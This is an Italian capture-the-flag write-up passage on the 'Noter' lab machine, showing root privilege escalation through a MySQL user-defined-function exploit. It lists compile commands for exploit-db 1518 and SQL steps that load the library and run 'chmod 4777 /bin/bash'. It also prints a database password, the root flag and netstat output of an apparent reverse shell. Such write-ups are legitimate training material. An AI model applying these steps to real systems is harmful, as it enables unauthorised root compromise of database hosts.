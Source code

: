 ```console
tcp        0      2 10.10.11.160:40416      10.10.14.3:9091         ESTABLISHED 783494/bash         
tcp        0      0 10.10.11.160:5000       10.10.14.3:39512        ESTABLISHED 1262/python3        
tcp        0      1 10.10.11.160:49296      8.8.8.8:53              SYN_SENT    -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
udp        0      0 127.0.0.1:57757         127.0.0.53:53           ESTABLISHED -
```

Quindi si verifica con che permessi gira

```console
svc@noter:/dev/shm$ systemctl status mysql 2>/dev/null | grep -o ".\{0,0\}user.\{0,50\}" 
user=root --skip-log-error --pid-file=/run/mysqld/mysq
```

### 5.2 Exploit
#
Dal link trovato prima si trova anche il link dell'[exploit](https://www.exploit-db.com/exploits/1518) che ho scaricato in locale. Ho eseguito i seguenti comandi:
* gcc -g -c 1518.c
* gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc

Quindi ho passato i file sulla macchina ed ho seguito la guida passo passo per creare correttamente la *UDF function*:
1. Accesso a mysql con le credenziali di cui prima con il comando `mysql -u root -pNildogg36`
2. show variables like '%plugin%';
3. show variables like '%secure_file_priv%';
4. use mysql;
5. create table foo(line blob);
6. insert into foo values(load_file('/dev/shm/1518.so'));
7. select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/1518.so';
8. create function do_system returns integer soname '1518.so';
9. select * from mysql.func;
10. select do_system('chmod 4777 /bin/bash');
11. exit;

Dopo di che eseguendo il comando `bash -p` ho la shell root !

````console
svc@noter:/dev/shm$ bash -p
bash-5.0#
````

Infine in */root* c'è la root flag: `7bef9a538d3e90f83fa9439a99cbc178`